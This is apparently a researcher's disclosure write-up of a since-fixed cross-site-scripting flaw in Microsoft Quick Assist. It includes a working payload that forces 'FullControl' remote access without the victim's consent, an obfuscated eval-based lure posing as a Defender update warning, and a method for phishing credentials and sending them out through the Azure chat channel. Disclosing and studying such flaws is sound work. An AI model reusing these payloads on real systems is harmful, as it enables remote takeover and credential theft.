

Earlier this year, Microsoft published an blog about TA Storm-1811 using Quick Assist to conduct targeted social engineering attacks and deploy Black Basta ransomware.

https://www.microsoft.com/en-us/security/blog/2024/05/15/threat-actors-misusing-quick-assist-in-social-engineering-attacks-leading-to-ransomware/

The full attack scenario is quite long, but could have been easier to execute a few months earlier.

Indeed, in October 2023, during redteam research, I discovered and reported a cross-site-scripting vulnerability in QuickAssist that could allow an attacker to bypass consent prompts in QuickAssist andtake full control over the computer without approval from the victim.

**An attacker could :**

* **Change its display name to spoof official Microsoft agents or anyone else**
* **Execute javascript code on the victim’s Webview2 browser running QuickAssist, and communicate with the native app (and potentially exploit local vulnerabilities from there, if any)**
* **Bypass consent prompts, especially the “Full Control” prompt required to remotely control the victim’s desktop**

#### Context

QuickAssist is a Webview2 built-in Windows utility to help someone by remotely viewing their desktop and eventually taking full control of their workstation to troubleshoot issues.

The helper must first send 6-long alphanumeric code to the perso who needs help (the sharer).

When run in normal operations, QuickAssist will display the following consent message to the sharer (on the left):


Once the sharing has started, the helper cannot take control over the sharer’s desktop unless another consent request is approved by the sharer, as shown in the screenshot below :


#### Exploitation

This exploit is a combination of multiple issues (at the time) on the script REDACTED

Below is a preview of the script :

```javascript

/* Minification failed. Returning unminified contents.
(3828,44-45): run-time error JS1195: Expected expression: .
(3828,55-56): run-time error JS1003: Expected ':': )
(3828,57-59): run-time error JS1195: Expected expression: ||
(3828,64-65): run-time error JS1006: Expected ')': ;
(12020,48-49): run-time error JS1195: Expected expression: .
(12020,59-60): run-time error JS1195: Expected expression: .
(12020,67-68): run-time error JS1003: Expected ':': )
(12021,25-28): run-time error JS1009: Expected '}': var
(12021,25-28): run-time error JS1003: Expected ':': var
(12021,139-140): run-time error JS1006: Expected ')': ;
(12040,9-10): run-time error JS1194: Expected ',' or ']': }
(12040,9-10): run-time error JS1006: Expected ')': }
(12041,5-6): run-time error JS1195: Expected expression: ]
(12041,6-7): run-time error JS1195: Expected expression: )
 */
// Copyright (c) Microsoft Corporation. All rights reserved.

//namespaced scoped constants
var microsoft = microsoft || {};
microsoft.remoteAssistance = microsoft.remoteAssistance || {};

// This value has been defined as the result of a script include before angular
// we'll 'inject' it here so that we can mock config for testing
// add fallback for headless js testing
microsoft.remoteAssistance.config = microsoft.remoteAssistance.config || {};
microsoft.remoteAssistance.moduleName = microsoft.remoteAssistance.moduleName || 'RemoteAssistanceWeb';

// namespace scoped constants
try {
    document.domain = 'microsoft.com';
} catch (e) {
    // TODO: blocked on logging this until we rebuild the client telemetry outside of angular (task #1516344)
}

// add fallback for older browsers 
console = console || {};
console.log = console.log || function () { };

(function () {
    // safeApply to avoid 'digest already in progress' error
    angular.module('ng').run(['$rootScope', '$log', function ($rootScope, $log) {
        $rootScope.safeApply = function (fn) {
            var phase = this.$root.$$phase;
            if (phase == '$apply' || phase == '$digest') {
                if (fn && (typeof (fn) === 'function')) {
                    fn();
                }
            } else {
                this.$apply(fn);
            }
        };

        // Check the environment -- native vs web browser
        $rootScope.isWebView2 = (typeof window.chrome != 'undefined' && typeof window.chrome.webview != 'undefined' && 'postMessage' in window.chrome.webview);
        $rootScope.isNative = (typeof window != 'undefined' &&
            ((typeof window.external != 'undefined' && 'notify' in window.external) || $rootScope.isWebView2));

        $rootScope.isHosted = window.parent && (window.location !== window.parent.location);

        if (!$rootScope.isNative) {
            microsoft.remoteAssistance.config.passcodeLength = microsoft.remoteAssistance.config.passcodeLengthCrypto;
        }
        $log.logt = function (message) {
            $log.log('[' + new Date().toLocaleTimeString() + '] ' + message);
        };
    }]);

    // Creates angular module
    var app = angular.module(microsoft.remoteAssistance.moduleName, ['authAngular', 'angularjsrouting', 'ngAria', 'ngRoute', 'ngCookies', 'ngSanitize', 'ngAnimate', 'angular-md5']);
    app.value('clientConfig', microsoft.remoteAssistance.config);

    app.config(['$compileProvider', '$qProvider',
        function ($compileProvider, $qProvider) {
            $compileProvider.debugInfoEnabled(!!microsoft.remoteAssistance.config.enableDebugging);
            $compileProvider.aHrefSanitizationWhitelist(/^\s*(https?|itms\-apps|ftp|mailto|file|javascript|microsoft-edge|ms-windows-store|ms-quick-assist):/);
            // in angular 1.6, unhandled reject exceptions wherer introduced. I am disabling this feature. It causes failures
            $qProvider.errorOnUnhandledRejections(false);
    }]);
```

First, JS (and CSS) minification errors could be seen at the beginning of the file, leading to cleartext developer comments in the script, as well as functions that should not have been shipped to production. This helps a lot understanding the code and looking for vulnerabilities.

Second, we can see that the javascript href protocol was added to the whitelist in `a`d tags using [$compileProvider.aHrefSanitizationWhitelist](https://code.angularjs.org/1.8.2/docs/api/ng/provider/$compileProvider#aHrefSanitizationWhitelist), essentially enabling _on(e) click_ XSS at all `ng-bind-html` locations in the application.

The XSS injection point is located inside the `displayName` variable that is being sent to the victim upon initializing the session.

First, the attacker must prepare the Quick Assist session to store the XSS payload to send to its victim.

Without diving too deep into the technical details, the easiest way I’ve found to successfully inject into the displayName value is to intercept the HTTP **response** received **after** sending a POST request to the following URL :

```
https://remoteassistance.support.services.microsoft.com/api/v2.0/remoteassistance/createconsumersession
```



By intercepting the response, we can easily change values before they are stored in Javascript and sent in further requests and websocket messages.

The attacker must then ask its victim to initiate a remote assistance session using the attacker’s code, retrieved in the previous response. For example, the attacker could send a phishing email asking the user to install a critical security update by running QuickAssist and entering a specific code. It could also be provided during a tech-support scam call.

As soon as the victim enters the code and completes the first connection steps, the malicious payload will be rendered on QuickAssist to trick the user into executing the XSS.

Here is an example :


By playing with existing CSS rules and HTML, we can completely hide the original consent prompt to display any phishing message.

The displayed message contains a very basic malicious `a` tag which uses the `javascript:` scheme to run Javascript when clicked :

```html
<a href=javascript:alert()>Click me to alert()</a>
```

#### Proofs-of-concept

**Full demo**

Left pane is the attacker, right pane is the victim. Attacker trafic is intercepted and forged manually using Burpsuite, but the whole setup could have been fully automated.


**FullControl consent bypass**

The following javascript payload can be used to proceed with the sharing request and force the victim to set the sharing mode to “FullControl” without its consent.

```javascript
document.querySelector('button').click();
setInterval(_=>{window.chrome.webview.postMessage(angular.toJson({command:'setsharingmode',context:{sharingmode: 'FullControl'}}))},1000)
```

_Note that it is possible to send any other command available in QuickAssist native app using this method._

The full “FirstName” payload used in the video is below :

```json
"FirstName": "<table width=\"100%\" class=\"ra-report-table absolute-center tooltip jumbotron \" height=\"100%\"><tbody bgcolor=\"#ffffff\"><tr height=\"550px\"><th><a href=\"javascript:eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,113,117,101,114,121,83,101,108,101,99,116,111,114,40,39,98,117,116,116,111,110,39,41,46,99,108,105,99,107,40,41,59,13,10,115,101,116,73,110,116,101,114,118,97,108,40,95,61,62,123,119,105,110,100,111,119,46,99,104,114,111,109,101,46,119,101,98,118,105,101,119,46,112,111,115,116,77,101,115,115,97,103,101,40,97,110,103,117,108,97,114,46,116,111,74,115,111,110,40,123,99,111,109,109,97,110,100,58,39,115,101,116,115,104,97,114,105,110,103,109,111,100,101,39,44,99,111,110,116,101,120,116,58,123,115,104,97,114,105,110,103,109,111,100,101,58,32,39,70,117,108,108,67,111,110,116,114,111,108,39,125,125,41,41,125,44,49,48,48,48,41))\" class\"\"=\"\"><br><br><br><br><br><br><h1 class=\"alert alert-error\">Security warning<\/h1><p>Quick Assist has detected that Microsoft Defender antivirus definitions are not up to date.<\/p><\/a><br><a class=\"btn btn-primary\">Install updates<\/a><\/th><\/tr><\/tbody><\/table>"
```

**Credentials phishing and exfiltration**

After triggering the XSS, a form can be added to the page to harvest credentials from QuickAssist window.

It is possible to exfiltrate harvested credentials via `remoteassistanceprodacs.communication.azure.com` since the communication channel is already established and it is allowed by CORS.

The JWT token and joinUri can be retrieved from `localStorage` to build an authenticated POST request to [https://remoteassistanceprodacs.communication.azure.com/chat/threads/{joinUri}/messages?api-version=2021-09-07](https://remoteassistanceprodacs.communication.azure.com/chat/threads/%7BjoinUri%7D/messages?api-version=2021-09-07`) , send the message, then retrieve it on the attacker’s side by sending an authenticated GET request to the same endpoint using their own credentials.

#### Timeline

* September 2023 : Discovery
* 18/10/2023 : MSRC Report
* 7/11/2023 : MSRC confirms vulnerability
* 10/11/2023 : $1000 bounty awarded (no CVE assigned)
* Sometime early 2024 : Vulnerability fixed